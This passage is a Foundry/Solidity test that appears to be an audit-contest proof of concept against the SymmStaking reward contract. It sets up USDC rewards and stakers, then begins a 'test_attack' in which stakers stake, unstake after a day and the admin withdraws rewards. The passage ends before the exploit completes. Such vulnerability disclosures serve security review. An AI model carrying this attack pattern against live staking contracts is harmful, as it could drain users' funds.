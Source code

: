 ```javascript
// - add following function in SymmStaking.sol contract which is going to be used for this specific POC:
//
//                                                                                                          	function getTokenRate(address token) public view returns(uint256){
//                                                                                                              	return rewardState[token].rate;
//                                                                                                              }
//
//

contract SymmStakingTest is Test {

    
    address admin      =   makeAddr("admin");
    address stakingToken;

    // reward token is USDC (6 decimals)
    address usdc;

    // symmStaking contract
    SymmStaking symmStaking;


    address[10] stakers_1;
    address[10] stakers_2;


    function setUp() external {
        vm.startPrank(admin);

                // 1. initialize SymmStaking Contract
                _initializeSymmstaking();

                // 2. add USDC to SymmStaking reward tokens list
                _addRewardToken();

                // 3. deposit rewards into staking contract
                _depositRewards();

                // 4. mint Symm Tokens to each staker in stakers_1 and stakers_2
                _mintSymmTokens();

        vm.stopPrank();
    }


    // run the test with: forge test --match-test test_attack --fork-url https://base-rpc.publicnode.com  -vvvv
    function test_attack() public {

        // 1. Each staker in stakers_1 stakes 1 SYMM token.
        _stakers_1_StakeSymmTokens();

        // 2. A day passes, and each staker, for whatever reason, decides to unstake their deposited SYMM tokens.
        //    As mentioned in the contest README, once there are no stakers, the admin will withdraw the reward tokens and redistribute them when new stakers join.
        skip(1 days);
        _stakers_1_UnstakeSymmTokens();
        _adminWithdrawRewardTokens();

```